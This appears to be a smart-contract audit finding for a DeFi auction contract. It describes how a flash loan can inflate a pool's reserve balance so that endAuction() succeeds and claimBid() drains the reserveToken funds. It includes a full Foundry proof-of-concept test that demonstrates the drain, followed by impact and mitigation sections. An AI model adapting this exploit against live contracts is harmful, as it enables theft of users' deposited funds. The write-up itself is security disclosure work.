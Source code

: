 Trendy Carbon Buffalo

High

# Attacker Can Drain All `reserveToken` Funds in the Pool

Likelihood : Medium 
Impact : High


### Description

Due to the way `endAuction()` and `claimBid()` are designed, a malicious actor can abuse a flash loan (or any form of temporary liquidity) to artificially inflate the Pool’s `reserveToken` balance in one transaction, thus tricking the Auction contract into successfully ending as `SUCCEEDED` instead of reverting with the `FAILED_POOL_SALE_LIMIT` state. This allows the attacker to claim all `reserveToken` funds from the Pool.

The high-level steps of the exploit are:

1. **Auction Near Expiry**  
   Wait until the auction is about to end (i.e., `block.timestamp >= endTime`). There must also be at least one bid slot available.

2. **Place Final Bid**

   - The attacker makes a final bid with an extremely large `buyReserveAmount` (`auction.MAX_BID_AMOUNT()` or similarly large value).
   - The `sellCouponAmount` only needs to be large enough to occupy a single bid slot (often the `slotSize()` or any minimal valid amount).

3. **Flash Loan & Balance Inflation**

   - Immediately after placing the bid (within the same transaction or in quick succession), the attacker acquires a flash loan of `reserveToken`.
   - The attacker sends these tokens temporarily into the Pool’s address (`pool`). This inflates the Pool’s `reserveToken` balance.

4. **Call `endAuction()`**

   - The standard check in `endAuction()` for a potential failure
   
     https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L341-L342

     would normally mark the auction as failed if the `totalSellReserveAmount` is too high relative to the Pool's reserve.
   - Because the attacker artificially increased the Pool’s `reserveToken` balance via the flash loan, the condition no longer triggers a revert or a `FAILED_POOL_SALE_LIMIT`. The auction instead proceeds to `SUCCEEDED`.

5. **Claim the Bid**

   - In a successful auction state, calling `claimBid(...)` transfers out the entire amount of `reserveToken` (i.e., `buyReserveAmount`) that was allocated for that winning bid.
   - The attacker now receives all the newly inflated `reserveToken` from the Pool.

6. **Repay Flash Loan**
   - The attacker repays the flash loan from the drained funds, walking away with any remainder as profit.
   - The Pool is left with little or no `reserveToken` balance.

### Proof of Concept

Below is a sample test scenario demonstrating the exploit. It shows how an attacker can inflate the Pool balance, call `endAuction()`, and then drain funds via `claimBid()`. Past this into `AuctionTest` :

```solidity

function setUp() public {
    usdc = new Token("USDC", "USDC", false);
    weth = new Token("WETH", "WETH", false);

    pool = createPool(address(weth), address(usdc));
    useMockPool(pool);

    vm.startPrank(pool);
    auction = Auction(
        Utils.deploy(
            address(new Auction()),
            abi.encodeWithSelector(
                Auction.initialize.selector,
                address(usdc),
                address(weth),
                1000000000000,
                block.timestamp + 10 days,
                300,                    //@audit maxBids (reduced from 1000)
                house,
                110
            )
        )
    );
    vm.stopPrank();
}

/**
 * Steps:
 *  1. Fill 299 out of 300 total bid slots with benign bids.
 *  2. The attacker places the final bid with a very large `buyReserveAmount`.
 *  3. Time advances past `auction.endTime()`.
 *  4. The attacker mints enough `reserveToken` (simulating a flash loan) to artificially inflate
 *     the Pool's balance.
 *  5. Calls `auction.endAuction()`, which checks the inflated balance and does not fail the auction.
 *  6. Attacker calls `auction.claimBid(...)` to drain the Pool.
 *  7. Attacker "repays" the flash loan by sending the borrowed tokens to another address.
 */
function test_steal_auction_fund_0xRaz() public {
    address sendBackFlashLoan = makeAddr("sendBackFlashLoan");
    uint256 sizeAmount = auction.totalBuyCouponAmount() / auction.maxBids();

    // Setup the attacker
    address attacker = makeAddr("attacker");
    vm.label(attacker, "attacker");
    usdc.mint(attacker, sizeAmount * 10);

    // 299 bids to fill up the auction
    for (uint256 i = 0; i < 299; i++) {
        address newBidder = address(uint160(i + 1));
        vm.startPrank(newBidder);
        usdc.mint(newBidder, sizeAmount);
        usdc.approve(address(auction), sizeAmount);
        auction.bid(1 ether, sizeAmount);
        vm.stopPrank();
    }

    // Attacker places final bid with a very large buyReserveAmount
    vm.startPrank(attacker);
    usdc.approve(address(auction), sizeAmount * 10);
    auction.bid(auction.MAX_BID_AMOUNT(), sizeAmount * 2);

    // Advance time to end the auction
    vm.warp(auction.endTime() + 1);

    // Fetch relevant references
    IERC20 reserveToken = IERC20(address(auction.sellReserveToken()));
    address poolAdd = auction.pool();
    vm.label(poolAdd, "Pool address");

    // Calculate how many tokens are needed to artificially inflate the Pool balance
    uint256 amountToFlashLoan =
        auction.totalSellReserveAmount() - reserveToken.balanceOf(poolAdd);

    // Before-attack balances
    uint256 attackerBalanceBeforeFlashLoan = reserveToken.balanceOf(attacker);
    assertEq(
        attackerBalanceBeforeFlashLoan,
        0,
        "attacker should have 0 balance of reserveToken before the attack"
    );

    uint256 poolBalanceBeforeAttack = reserveToken.balanceOf(poolAdd);

    // "Flash loan" attack: simply mint to attacker & send to the Pool
    deal(address(auction.sellReserveToken()), attacker, amountToFlashLoan);
    reserveToken.transfer(poolAdd, amountToFlashLoan);

    // End the auction; check does not fail because of inflated pool balance
    auction.endAuction();

    // Attacker claims the bid to drain the pool
    auction.claimBid(300);

    // Attacker's new balance
    uint256 balanceAfterAttack = reserveToken.balanceOf(attacker);

    // Repay "flash loan" to a random address
    reserveToken.transfer(sendBackFlashLoan, amountToFlashLoan);

    // Final pool balance
    uint256 balancePoolAfterAttack = reserveToken.balanceOf(poolAdd);

    // Validations
    assertGt(
        balanceAfterAttack,
        0,
        "attacker should have balance of reserveToken after sending back the flash loan"
    );

    uint256 balanceAfterPayingBackFlashLoan = balanceAfterAttack - amountToFlashLoan;

    // Console logs
    console.log("Attacker balance before the flash Loan : ", attackerBalanceBeforeFlashLoan);
    console.log("Balance after paying back the flash Loan : ", balanceAfterPayingBackFlashLoan);
    console.log("Balance of the pool before the attack : ", poolBalanceBeforeAttack);
    console.log("Balance of the pool after the attack : ", balancePoolAfterAttack);
}

```

In this test:

- The final attacker’s bid is accepted despite an enormous `buyReserveAmount`.
- By temporarily sending tokens to the Pool, the check in `endAuction()` does not fail the auction.
- The attacker can then call `claimBid()` and drain the artificially inflated reserve, repaying the flash loan afterward.

### Impact

- **Complete Loss of Funds**: The Pool’s entire `reserveToken` balance can be drained in a single transaction.
- **Minimal Capital Requirement**: The attacker only needs enough `couponToken` (i.e., USDC in the example) to place a bid, and can rely on a flash loan or any short-term liquidity to inflate the Pool.
- **Users’ Assets at Risk**: All legitimate deposits in the Pool are effectively stolen.

### Recommended Mitigation

One simple approach is **splitting the `endAuction()` and reserve transfer logic** into two separate transactions with a mandatory time delay in between. That is:

1. **Transaction 1**: Mark the auction as ended (updating the `state`), but do **not** immediately transfer `reserveToken`.
2. **Transaction 2**: Some reasonable time later (e.g., a time-lock or separate block), execute the actual transfer of `reserveToken` to winning bidders.

By introducing a delay, attackers cannot complete the entire flash-loan-based inflation and immediate payout in a single atomic transaction. This significantly raises the cost and complexity of the exploit and protects the Pool’s reserves in the interim.
